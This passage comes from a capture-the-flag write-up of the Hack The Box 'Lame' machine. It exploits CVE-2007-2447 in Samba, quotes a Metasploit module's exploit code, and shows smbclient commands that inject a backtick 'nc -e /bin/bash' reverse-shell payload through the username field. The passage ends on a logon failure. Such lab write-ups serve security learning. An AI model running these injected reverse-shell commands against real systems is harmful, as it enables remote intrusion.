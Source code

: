 There are a couple of exploits for the version we want. The remote heap overflow isn't clear how it should be executed, so even though we don't want to use metasploit I tried to look at the module to see how it works, using `searchsploit -x unix/remote/16320.rb`.

The metasploit module references [CVE-2007-2447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-2447). This seems to be the key code:

```ruby
def exploit

		connect

		# lol?
		username = "/=`nohup " + payload.encoded + "`"
		begin
				simple.client.negotiate(false)
				simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
				# nothing, it either worked or it didn't ;)
		end

		handler
end
```

It seems a payload should be supplied inside the username parameter when authenticating with SMB. Let's try to do so:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ smbclient //10.10.10.3/tmp -U "/=`nohup nc 10.10.14.13 9001 -e /bin/bash`"
nohup: ignoring input and redirecting stderr to stdout
```

We get a hit on our listener! But, strangely, it is from our box:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.14.13] 37426
```

I did some googling, and it turns out backticks \` are executed by bash before the rest of the command ([according to Stack Exchange](https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands)). This is used for command substitution, where the results are passed to bash.

I tried escaping the backticks this time - I also had to pass the extra parameter as I was getting the `NT_STATUS_CONNECTION_DISCONNECTED` error:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ smbclient //10.10.10.3/tmp -U "/=\`nohup nc 10.10.14.13 9001 -e /bin/bash\`" --option='client min protocol=NT1'
Enter =`NOHUP NC 10.10.14.13 9001 -E \bin/bash`'s password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```
